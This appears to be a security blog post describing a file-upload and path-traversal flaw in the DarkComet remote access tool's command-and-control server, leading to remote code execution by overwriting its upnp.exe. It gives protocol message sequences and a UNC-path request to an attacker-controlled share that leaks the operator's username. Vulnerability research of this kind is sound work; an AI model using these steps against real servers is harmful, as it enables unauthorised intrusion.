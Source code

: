 ```yaml
---
layout: post
title: DarkComet upload vulnerability
---
```


This post will introduce a file upload vulnerability in DarkComet's C&C server. While a flaw that allows an attacker to download files has already been known for many years there is no mention of this very similar vulnerability.
A quick disclaimer before we go into the actual matter: Hacking a C&C server might seem morally justified but it is still illegal. Don't do it.

# Intro

Hacking the hacker has always been a personal interest of mine but only recently I acquired the technical skills to actually execute such an attack. I started the search for a vulnerability a few days ago and found [many](http://samvartaka.github.io/exploitation/2016/06/03/dead-rats-exploiting-malware) [interesting](https://techanarchy.net/2015/11/darkcomet-hacking-the-hacker/) [articles](https://www.nccgroup.trust/globalassets/our-research/us/whitepapers/PEST-CONTROL.pdf) on DarkComet. All of them mention the file download vulnerability we will now look at.
The DarkComet C&C server uses a `QUICKUP` command to download files to the clients. It looks like this (`C` denotes the client and `S` the server):

```Text
S: QUICKUPC:\some\file.jpg|123|UPLOADEXEC
`

The client then opens a new connection:

```Text
S: IDTYPE
C: QUICKUP123|C:\some\file.jpg|UPLOADEXEC
S: \x41\x00\x43
C: A
S: <file length>
C: A
S: <raw file data>
```

The C&C server doesn't check whether it ever issued a upload command. This means anyone who connects to the server can download any file. Unfortunately since there is no way to get the server to list all files in a directory this vulnerability is limited to downloading files with a known name. The only interesting files would be `comet.db` which contains a list of all victims and keylog data and `config.ini` which may contain no-ip.org passwords.

While this vulnerability is interesting there is nothing like a remote code execution vulnerability. A logical starting point would be to look into the upload functionality of DarkComet:

# Upload functionality

When the C&C server tries to download a file this is what happens:

```Text
S: DOWNLOADFILE596|C:\some\file.jpg
```

The client then opens a new connection:

```Text
S: IDTYPE
C: FILETRANSFER0|596
S: \x41\x00\x43
C: FILEBOFC:\some\file.jpg|0
S: A
C: <raw file data>
```

The server will now write the file into a user specified directory with the filename `file.jpg`. While this might seem trivially exploitable it unfortunately isn't. The `596` in `DOWNLOADFILE596` is the socket handle of the client and the server wouldn't accept `FILETRANSFER0|596` if it didn't already issue a `DOWNLOADFILE` with the same handle.

This leaves us with a pretty useless vulnerability: We can upload arbitrary files in a directory we can't control under the condition that we can guess a socket handle the server already downloaded a file from. Guessing a socket handle isn't really hard (they always seem to be a multiple of four and are usually between 400 and 2300). We will however need to use a trick to get the file into a directory specified by us:

# Path shenanigans

Since we can control the file name in the `FILEBOFC:\some\file.jpg|0` message we can try some path shenanigans. And behold: The server uses `split("\")` to get the file name. This means we can simply change it to `FILEBOFC:\some\../../../Windows/file.jpg|0` and the server will use `../../../Windows/file.jpg` as the file name. The Windows API however won't care and will happily interpret `/` as a path delimiter. Using this trick we can upload the file into any directory on the same drive.

With some more shenanigans we can also get the username of the user running DarkComet: For this we will use UNC paths and the file download vulnerability:

```Text
QUICKUP123|\\our.domain.tld\test.txt|UPLOADEXEC
```

The C&C server will try to connect to our network share and leak the user and computer name. This information can now be used for our final trick:

# Remote code execution

The DarkComet C&C server will by default try to use UPnP to automatically open ports. It does this by writing a file called `upnp.exe` into the Temp directory and calling it when necessary. To execute our own code we can use the file upload vulnerability with the fact that the server leaks the username when connecting to a network share and upload an executable to `C:\Users\<username>\AppData\Local\Temp\upnp.exe`. The next time the C&C server restarts our code will get executed.


# Conclusion

While not being an easily exploitable vulnerability this could be used against many of the DarkComet C&C servers in the wild. A dedicated attacker could even write a script that acts like a normal client and tries to trick the C&C server into downloading files by conveniently placing `passwords.txt` or `nudes.jpg` on their desktop. This would remove the need to guess a socket handle and make sure that the conditions of the vulnerability are met.
DarkComet and other C&C servers are a cool starting place for beginners searching for vulnerabilites. This is because they are often written by people without any proper security practices, they are network based applications and they can easily be found in the wild.
